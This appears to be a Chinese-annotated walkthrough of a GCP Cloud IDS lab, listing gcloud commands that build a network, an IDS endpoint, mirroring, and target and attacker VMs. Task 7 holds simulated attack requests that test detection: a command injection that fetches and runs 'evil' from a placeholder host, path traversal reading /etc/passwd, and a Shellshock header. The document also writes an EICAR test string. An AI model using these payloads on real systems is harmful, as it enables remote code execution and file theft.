




# Cloud IDS
 Cloud Intrusion Detection System (Cloud IDS), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. 

 

 本实验做了什么
在 GCP 中开启所需接口，搭建专属 VPC 网络、私有访问、防火墙规则与 Cloud NAT 网络环境。
部署 Cloud IDS（入侵检测系统） 检测节点，配置流量镜像策略。
创建两台无公网 IP 的虚拟机：一台作为业务服务器，一台作为攻击端。
人为模拟低、中、高、严重不同级别的恶意攻击流量与病毒测试文件。
通过 IDS 捕获全网镜像流量，在控制台与云日志中查看告警、攻击详情与安全日志。
实验核心想表达什么
介绍 GCP Cloud IDS 云端入侵检测服务的作用，用于防御恶意入侵、恶意软件、远程控制等网络攻击。
演示云上安全架构：通过流量镜像，无感审计全网流量，不影响正常业务。
展示完整云上安全运维流程：环境部署→安全检测→攻击模拟→威胁告警→日志留存追溯。
证明云端可按风险等级识别攻击，并结合日志服务，为后续安全溯源、防护加固提供依据。

# Getting Started with Cloud IDS
## All gcloud Commands & Purpose

# Task 1. Enable APIs
export PROJECT_ID=$(gcloud config get-value project | sed '2d')
# 读取当前项目ID，设置环境变量

gcloud services enable servicenetworking.googleapis.com \
    --project=$PROJECT_ID
# 启用私有网络互联API

gcloud services enable ids.googleapis.com \
    --project=$PROJECT_ID
# 启用Cloud IDS入侵检测API

gcloud services enable logging.googleapis.com \
    --project=$PROJECT_ID
# 启用云日志API

# Task 2. Build the Google Cloud networking footprint
gcloud compute networks create cloud-ids \
--subnet-mode=custom
# 创建自定义VPC网络

gcloud compute networks subnets create cloud-ids-useast1 \
--range=192.168.10.0/24 \
--network=cloud-ids \
--region=us-east1
# 创建自定义子网

gcloud compute addresses create cloud-ids-ips \
--global \
--purpose=VPC_PEERING \
--addresses=10.10.10.0 \
--prefix-length=24 \
--description="Cloud IDS Range" \
--network=cloud-ids
# 预留VPC对等连接IP段

gcloud services vpc-peerings connect \
--service=servicenetworking.googleapis.com \
--ranges=cloud-ids-ips \
--network=cloud-ids \
--project=$PROJECT_ID
# 建立VPC私有对等连接

# Task 3. Create a Cloud IDS endpoint
gcloud ids endpoints create cloud-ids-east1 \
--network=cloud-ids \
--zone=us-east1-b \
--severity=INFORMATIONAL \
--async
# 创建IDS检测端点

gcloud ids endpoints list --project=$PROJECT_ID
# 查看IDS端点状态

# Task 4. Create Firewall rules and Cloud NAT
gcloud compute firewall-rules create allow-http-icmp \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:80,icmp \
--source-ranges=0.0.0.0/0 \
--target-tags=server
# 放行HTTP与ICMP协议

gcloud compute firewall-rules create allow-iap-proxy \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:22 \
--source-ranges=35.235.240.0/20
# 放行IAP SSH连接

gcloud compute routers create cr-cloud-ids-useast1 \
--region=us-east1 \
--network=cloud-ids
# 创建云路由

gcloud compute routers nats create nat-cloud-ids-useast1 \
--router=cr-cloud-ids-useast1 \
--router-region=us-east1 \
--auto-allocate-nat-external-ips \
--nat-all-subnet-ip-ranges
# 配置Cloud NAT实现内网机器外网访问

# Task 5. Create two virtual machines
gcloud compute instances create server \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.20 \
--metadata=startup-script=#\!/bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \
--tags=server \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
# 创建靶机Server，自动安装Nginx

gcloud compute instances create attacker \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.10 \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
# 创建攻击机Attacker

gcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
# IAP隧道连接Server虚拟机

sudo systemctl status nginx
# 检查Nginx运行状态

cd /var/www/html/
# 进入网站根目录

sudo touch eicar.file
# 创建测试文件

echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
# 写入EICAR病毒测试码

exit
# 退出虚拟机

# Task 6. Create a Cloud IDS packet mirroring policy
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE
# 等待IDS端点就绪

export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
# 获取IDS转发规则

gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
# 创建流量镜像策略

gcloud compute packet-mirrorings list
# 查看镜像策略

# Task 7. Simulate attack traffic
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
# 连接攻击机

# 低危攻击
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil;"

# 中危攻击
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file

# 高危攻击
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd

# 严重攻击
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical

exit
# 退出攻击机

# Task 8
# 无命令，仅控制台操作：查看IDS威胁、日志、告警详情

